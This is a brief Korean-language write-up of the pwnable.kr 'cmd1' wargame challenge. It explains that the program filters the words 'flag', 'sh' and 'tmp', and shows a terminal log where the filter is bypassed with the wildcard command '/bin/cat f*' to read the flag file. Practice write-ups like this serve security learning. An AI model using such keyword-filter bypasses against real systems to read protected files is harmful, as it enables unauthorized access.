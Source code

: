 # cmd1 writeup

## vul
문자열 하나를 인수로 받아서 `flag`, `sh`, `tmp`만을 필터링하고 실행한다.

코드랑 다른 분들 롸업 보면 환경변수로 푸는 걸 의도한 문제 같은데, 그냥 간단하고 빠르게 와일드카드를 써서 풀었다. 
역시 와일드카드는 최고야.

## run
```
 ⚙ junhoyeo@Macbookui-MacBook-Pro  ~/Documents/pwnable.kr/14. cmd1   master ●  python2 exploit.py2
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: './cmd1 "/bin/cat f*"': Done
[+] Receiving all data: Done (48B)
[*] Closed SSH channel with pwnable.kr
[*] FLAG : mommy now I get what PATH environment is for :)
```
